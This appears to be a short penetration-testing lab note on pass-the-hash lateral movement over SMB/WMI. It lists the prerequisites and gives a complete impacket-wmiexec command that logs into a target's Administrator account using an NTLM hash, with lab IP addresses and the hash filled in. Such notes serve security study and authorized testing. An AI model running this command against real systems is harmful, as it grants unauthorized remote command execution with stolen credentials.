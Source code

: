 ```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: 172.16.167.12
HASH: c33b5cf9fa1b1bb4894d4a6cd7c54034
---
```

Requirements:
- SMB connection through the firewall (commonly port 445)
- Windows File and Printer Sharing feature to be enabled
- admin share called **ADMIN$** to be available (To establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.)

Procedure:
- On Kali:
	- /usr/bin/impacket-wmiexec -hashes :<span id="HASH"/>c33b5cf9fa1b1bb4894d4a6cd7c54034<span type="end"/> Administrator@<span id="IP_TARGET"/>172.16.167.12<span type="end"/>